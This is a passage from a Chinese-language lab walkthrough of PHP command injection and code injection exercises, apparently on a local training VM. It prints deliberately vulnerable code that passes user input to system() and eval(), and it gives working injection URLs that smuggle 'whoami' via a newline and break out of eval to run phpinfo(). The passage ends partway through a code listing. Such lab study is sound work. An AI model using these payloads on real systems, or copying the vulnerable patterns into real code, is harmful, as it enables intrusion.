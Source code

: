 ```
<?php
  if (!(preg_match('/^\d{1,3}\.\d{1,3}\.\d{1,3}.\d{1,3}$/m', $_GET['ip']))) {
     die("Invalid IP address");
  }
  system("ping -c 2 ".$_GET['ip']);
?>
```
使用%0a进行绕过
[http://192.168.245.131/commandexec/example2.php?ip=127.0.0.1%0awhoami](http://192.168.245.131/commandexec/example2.php?ip=127.0.0.1%0awhoami)
![图片](C:\Users\liukaifeng01\Desktop\新建文件夹\HTtrec1SK7QlKFkG.png)
### 2.1.4 Commands injection Example 3
进行了限制，但是有重定向
```
<?php
  if (!(preg_match('/^\d{1,3}\.\d{1,3}\.\d{1,3}.\d{1,3}$/', $_GET['ip']))) {
     header("Location: example3.php?ip=127.0.0.1");
  }
  system("ping -c 2 ".$_GET['ip']);

?>
```
抓包看，可以执行成功
![图片](C:\Users\liukaifeng01\Desktop\新建文件夹\E3XBb7BFlCopV05V.png)


### 2.1.5 Code injection Example 1
未做过滤，可以进行闭合触发漏洞。
```
<?php 
  $str="echo \"Hello ".$_GET['name']."!!!\";";

  eval($str);
?>
```

[http://192.168.245.131/codeexec/example1.php?name=%22;phpinfo();//](http://192.168.245.131/codeexec/example1.php?name=%22;phpinfo();//)
![图片](C:\Users\liukaifeng01\Desktop\新建文件夹\zLxDoPz6tjQAhW9w.png)


### 2.1.6 Code injection Example 2
create_function类似于function test($args){方法代码部分}，然后通过闭合
```
<?php
class User{
  public $id, $name, $age;
  function __construct($id, $name, $age){
    $this->name= $name;
    $this->age = $age;
    $this->id = $id;
  }   
}
  require_once('../header.php');
  require_once('../sqli/db.php');
   $sql = "SELECT * FROM users ";

   $order = $_GET["order"];
   $result = mysql_query($sql);
  if ($result) {
      while ($row = mysql_fetch_assoc($result)) {
      $users[] = new User($row['id'],$row['name'],$row['age']);
```